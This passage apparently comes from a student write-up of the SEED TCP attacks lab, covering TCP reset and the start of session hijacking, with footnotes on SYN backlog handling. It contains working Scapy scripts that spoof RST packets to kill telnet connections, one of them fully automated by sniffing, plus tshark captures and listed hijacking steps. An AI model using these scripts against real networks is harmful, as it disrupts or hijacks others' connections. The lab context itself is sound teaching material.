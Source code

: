 ```console
  107 16.612329722     10.9.0.6 → 10.9.0.5     TCP 66 43106 → 23 [ACK] Seq=2451321427 Ack=3957985002 Win=64128 Len=0 TSval=3440879392 TSecr=3679847895
```

Therefore we have all the information we need to write the following `reset.py` program:

```python
#!/usr/bin/env python3

# reset.py
from scapy.all import *

ip  = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=43106, dport=23, flags="R", seq=2451321325)
pkt = ip/tcp
ls(pkt)
send(pkt, iface="br-f00d665d871a", verbose=0)
```

Run the program with `sudo`. We shall subsequently see the following message printed out by `tshark`:

```console
$ tshark -i br-f00d665d871a -f "tcp port 23"
Capturing on 'br-f00d665d871a'
    1 0.000000000     10.9.0.6 → 10.9.0.5     TCP 54 43106 → 23 [RST] Seq=2451321325 Win=8192 Len=0
```

The `reset_auto.py` program shown below launch the attack automatically using the sniffing-and-spoofing technique:

```python
#!/usr/bin/env python3

# reset_auto.py
from scapy.all import *

def spoof_tcp(pkt):
    ip      = IP(dst=pkt[IP].src, src=pkt[IP].dst)
    tcp     = TCP(dport=pkt[TCP].sport, sport=pkt[TCP].dport, flags="R", seq=pkt[TCP].ack)
    spoofed = ip/tcp
    ls(spoofed)
    send(spoofed, verbose=0)

pkt=sniff(iface='br-f00d665d871a', filter='tcp and port 23', prn=spoof_tcp)
```

### Task 3: TCP Session Hijacking

According to MDN Web Docs, the TCP session hijacking attack takes five steps:
1. **Sniff**, that is perform a man-in-the-middle (MITM) attack, place the attacker between victim and server.
2. **Monitor** packets flowing between server and user.
3. **Break** the victim machine's connection.
4. **Take control** of the session.
5. **Inject** new packets to the server using the victim's session ID.


[^1]: Direction of flows is important if someone wants to configure asymmetric rules; that is, not all protocols require symmetric bandwidth.
[^2]: [https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/](https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/).
[^3]: This SYN backlog queue is also called "request socket queue." There is another backlog queue, maintained by the Linux kernel, called the accept queue. Once an ACK packet is received and validated, a new client connection is ready. This connection is moved into the accept queue, waiting for the application to call `accept()` and receive it. The `net.core.somaxconn` toggle specifies a network-system-wide maximum for the backlog of any socket; that is, it is not system global, but global to a Linux network namespace. Running in containers that have their own network namespaces, the value of `net.core.somaxconn` is set to the built-in kernel default. (More specifically, according to [the official documentation of Docker](https://docs.docker.com/engine/security/), all containers on a given Docker host are sitting on bridge interfaces, each of which gets its own network stack, meaning that a container does not get privileged access to the sockets or interfaces of another container.) When a larger backlog value is provided, the kernel silently caps it at the value of `net.core.somaxconn`. On our SEED VM, this value is `4096`. This [post](https://blog.cloudflare.com/syn-packet-handling-in-the-wild/) from Cloudflare and this [post](https://theojulienne.io/2020/07/03/scaling-linux-services-before-accepting-connections.html) from Theo Julienne provide very good explanations.
[^4]: [https://cr.yp.to/syncookies.html](https://cr.yp.to/syncookies.html).